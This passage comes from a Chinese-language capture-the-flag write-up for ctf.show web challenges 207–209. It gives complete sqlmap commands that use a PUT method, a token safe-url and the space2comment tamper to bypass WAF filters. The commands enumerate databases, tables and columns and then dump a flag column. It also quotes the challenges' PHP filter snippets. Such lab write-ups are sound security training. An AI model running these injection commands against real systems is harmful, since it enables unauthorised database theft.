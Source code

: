  ```bash
sqlmap -u https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxca -C flagvc --dump --safe-url https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
```

## web 208

过滤了select,可以双写绕过或者大写绕过

```php
//对传入的参数进行了过滤
// $id = str_replace('select', '', $id);
  function waf($str){
   return preg_match('/ /', $str);
  }
```

看了大佬们是写tamper脚本，不清除这个脚本怎么写，后续可能补上。

sqlmap使用是sql语句默认是大写，所以可以使用上一题的payload

 ```bash
# 爆数据库   ctfshow_web
sqlmap -u https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --safe-url https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库来爆表名     ctfshow_flaxcac
sqlmap -u https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web --tables --safe-url https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库,表爆字段   flagvca,id,tes
sqlmap -u https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxcac --columns --safe-url https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxcac -C flagvca --dump --safe-url https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
```

## web 209

前面看别人修改sqlmap的脚本，不知道路径，现在突然想到了。做题需要当场修改脚本到`/usr/share/sqlmap/tamper/`

::: tip
补充：[【Sqlmap Tamper 编写】](https://y4er.com/posts/sqlmap-tamper/)
建议跟着做一下，补充能量。
:::
